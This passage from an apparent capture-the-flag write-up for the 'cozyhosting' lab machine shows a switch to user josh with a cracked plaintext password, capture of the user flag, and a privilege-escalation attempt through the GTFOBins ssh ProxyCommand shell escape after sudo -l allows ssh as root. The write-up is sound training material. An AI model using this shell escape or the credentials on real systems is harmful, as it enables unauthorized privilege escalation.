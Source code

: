 I tried to log in to the web portal as "admin" with that password. No luck. I noticed a user directory in the `/home` folder named `josh`. I try to login as `josh` with `su josh`:

```
app@cozyhosting:/$ cd /home
cd /home
app@cozyhosting:/home$ ls
ls
josh
app@cozyhosting:/home$ su josh
su josh
Password: manchesterunited
python3 -c 'import pty; pty.spawn("/bin/bash")'
josh@cozyhosting:~$ ls
ls
user.txt
josh@cozyhosting:~$ cat user.txt
cat user.txt
70ed2ab8d4ac574e826b6dd914267bc9
```

User flag = <mark style="background-color:green;">70ed2ab8d4ac574e826b6dd914267bc9</mark>

Success! Now that we have the user flag, we continue to wait for the admin hash to crack.

### Priv Esc

Using sudo -l we can check our options to escalte from the user "josh":

```
josh@cozyhosting:~$ sudo -l
sudo -l
[sudo] password for josh: manchesterunited

Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

It appears we can run `ssh` as root.

After many hours, a hint later, and doing more research I found something. Using the GTFObins.github.io website, if I want to spawn an interactive shell through the ProxyCommand option, I can do that.

I want to do that, so I use the command provided on the website:

```
josh@cozyhosting:~$ ssh -o ProxyCommand=';sh 0<&2 1>&2' x
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
$ id
id
uid=1003(josh) gid=1003(josh) groups=1003(josh
```
